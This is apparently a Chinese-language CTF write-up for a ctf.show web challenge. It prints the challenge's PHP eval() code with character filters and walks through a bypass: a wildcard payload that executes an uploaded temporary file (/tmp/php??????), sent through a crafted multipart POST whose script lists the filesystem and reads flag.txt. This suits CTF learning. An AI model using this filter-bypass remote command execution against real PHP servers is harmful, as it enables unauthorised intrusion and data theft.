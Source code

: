 ```yaml
---
title: "Web红包题第二弹  @WEB"
date: 2023-09-10
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 查看源代码，根据源码提示，请求?cmd=aa

![](/ctf.show/40/1.webp)

```php
<?php
        if(isset($_GET['cmd'])){
            $cmd=$_GET['cmd'];
            highlight_file(__FILE__);
            if(preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
            
                die("cerror");
            }
            if(preg_match("/\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",$cmd)){
                die("serror");
            }
            eval($cmd);
        
        }
    
?>
#过滤了大多数字符，可以使用的字符还有：p ` ? / + < > =
```

可用的字符构造语句

```
?cmd=?><?=`.+/??p/p?p??????`,由eval（$cmd）来运行临时文件
#备注：问号代表任意字符，通配符/??p/p?p??????匹配/tmp/phpxxxxxx
```

burp修改为POST请求，并修改三处请求参数

```
1:POST /?cmd=?><?=`.+/??p/p?p??????`; HTTP/1.1
2:Content-Type:multipart/form-data;boundary=---------------------------1024230095629231352
3:-----------------------------10242300956292313528205888
Content-Disposition: form-data; name="fileUpload"; filename="1.txt" 
Content-Type: text/plain

#! /bin/sh

ls /
-----------------------------10242300956292313528205
```

![](/ctf.show/40/2.webp)

通过回显能够看到一个名为flag.txt的文件，修改命令为：cat /flag.txt 查看flag

![](/ctf.show/40/3.webp)